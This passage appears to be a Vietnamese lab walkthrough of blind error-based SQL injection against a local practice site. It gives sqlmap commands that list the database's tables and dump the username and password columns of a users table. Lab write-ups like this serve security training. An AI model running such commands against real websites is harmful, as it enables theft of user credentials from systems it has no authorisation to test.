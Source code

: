 ![alt text](./src/image-19.png)
Liệt kê các table trong database
```
sqlmap -u "http://192.168.106.131:1337/lab/sql-injection/get-blind-error/index.php?img=2" -D sql_injection --tables
```
![alt text](./src/image-20.png)
Tiến hành dump bảng users cột username và password
```
sqlmap -u "http://192.168.106.131:1337/lab/sql-injection/get-blind-error/index.php?img=2" -D sql_injection -T users -C username,password --dump
```
![alt text](./src/image-21.png)
